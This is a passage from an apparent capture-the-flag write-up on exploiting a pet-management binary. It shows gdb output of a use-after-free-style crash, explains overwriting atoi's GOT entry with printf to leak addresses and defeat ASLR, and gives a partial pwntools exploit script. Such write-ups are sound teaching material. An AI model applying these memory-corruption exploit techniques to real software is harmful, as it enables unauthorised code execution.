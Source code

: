 ```
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdde0 --> 0x5000030 
0008| 0x7fffffffdde8 --> 0xffffffff00000001 
0016| 0x7fffffffddf0 --> 0x401668 ('-' <repeats 48 times>)
0024| 0x7fffffffddf8 --> 0x0 
0032| 0x7fffffffde00 --> 0x7fffffffde70 --> 0x401120 (push   r15)
0040| 0x7fffffffde08 --> 0x400750 (xor    ebp,ebp)
0048| 0x7fffffffde10 --> 0x7fffffffdf50 --> 0x1 
0056| 0x7fffffffde18 --> 0x8f96fc56bdd0000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400c72 in ?? ()
gdb-peda$ break
Breakpoint 5 at 0x400c72
gdb-peda$ x/x $rax
0x657963:	Cannot access memory at address 0x657963
gdb-peda$ p $rax
$1 = 0x657963
```

So you can see, with the bug we caused a crash. That is because the stale pointer stored in `ptr` was not reset when we edited a pet since it already existed. In addition to that we wrote over the spot where there should be a pointer with `eye`, and it tried to write to `eye` (last character was modified by 2 bits). With this bug we effictively have a write what where.

#### Infoleak

Since this binary most likely has ASLR enabled, we will have to leak an address in order to defeat it. We can do this by overwriting the got address of `atoi` with the plt address `printf` so whenever `atoi` is called, it will really call `printf`. Since atoi has a single char array passed to it as an argument, we can use this as a format string bug to leak values. Below is a patial exploit that I have which will write over `atoi`, and we will do the format string exploits by hand to see what we can leak. Here is the partial exploit we will use for this (some sections of this partial exploit are explained below):
```
from pwn import *

target = process('./cat')
gdb.attach(target)

printf_plt = p64(0x4006d0)
atoi_got = p64(0x602068)

def create_pet(name, pet_type, age):
	target.sendline('1')
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
	target.recvuntil('>')
	target.sendline(age)
	target.recvuntil('>')

def edit_pet(index, name, pet_type, age, modify):
	target.sendline('2')
	target.recvuntil('>')
	target.sendline(index)
	target.recvuntil('>')
	target.sendline(name)
	target.recvuntil('>')
	target.sendline(pet_type)
	target.recvuntil('>')
	target.sendline(age)
```